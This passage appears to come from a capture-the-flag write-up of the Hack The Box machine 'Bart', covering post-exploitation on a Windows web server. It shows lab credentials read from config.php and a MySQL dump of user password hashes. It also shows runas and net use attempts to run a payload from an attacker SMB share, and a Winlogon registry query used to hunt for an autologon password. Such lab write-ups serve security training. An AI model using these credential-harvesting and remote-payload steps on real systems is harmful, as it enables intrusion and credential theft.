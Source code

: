 ```powershell 
        }

        mysqli_set_charset ($con , 'UTF-8');
        return $con;
}
?>
```
Then we find some more for Daniel Simmons.
```powershell
C:\inetpub\wwwroot\monitor>type config.php
type config.php
<?php
define('PSM_DB_HOST', 'localhost');
define('PSM_DB_PORT', '3306');
define('PSM_DB_NAME', 'sysmon');
define('PSM_DB_USER', 'daniel');
define('PSM_DB_PASS', '?St4r1ng1sCr33py?');
define('PSM_DB_PREFIX', '_');
define('PSM_BASE_URL', 'http://monitor.bart.htb');
C:\inetpub\wwwroot\monitor>
```
We try and do some runas commands with these credentials on one of our payloads like ```runas /user:d.simmons ?St4r1ng1sCr33py? "\\10.10.14.20\BLAH\443https.exe"``` or ```net use \\10.10.14.20\BLAH\443https.exe /user:h.potter !IC4nB3Th3B3st?``` or the rundll method from above but they don't seem to do anything. Harvey's account is in the powershell session users group so that might be something for later if we can find his windows password. We can login to the local mysql with them though, and see in there are some hashes for Harvey, Daniel, and the IT guy Bobby for that simple chat application. We could probably try and crack these and move into those accounts if passwords are being reused, but since this is HTB I'm guessing there is another way to elevate that is more interesting to find than brute forcing so we'll save that for when we get desperate.

```powershell 
C:\inetpub\wwwroot\internal-01\log>mysql -uharvey -p!IC4nB3Th3B3st? -e "select * from user;" internal_chat
mysql -uharvey -p!IC4nB3Th3B3st? -e "select * from user;" internal_chat
uid     uname   passwd
1       harvey  faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3
2       bobby   e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc
3       daniel  f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801
```

After awhile we start going through our usual windows priv esc checklists, or we run enjoiz script or maybe JAWS. When we check for the usual registry keys that might contain passwords, you can see in winlogon that the administrators password is down at the bottom in the "DefaultPassword" field. 

```powershell
C:\>reg.exe query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg.exe query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
    DefaultUserName    REG_SZ    Administrator
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
```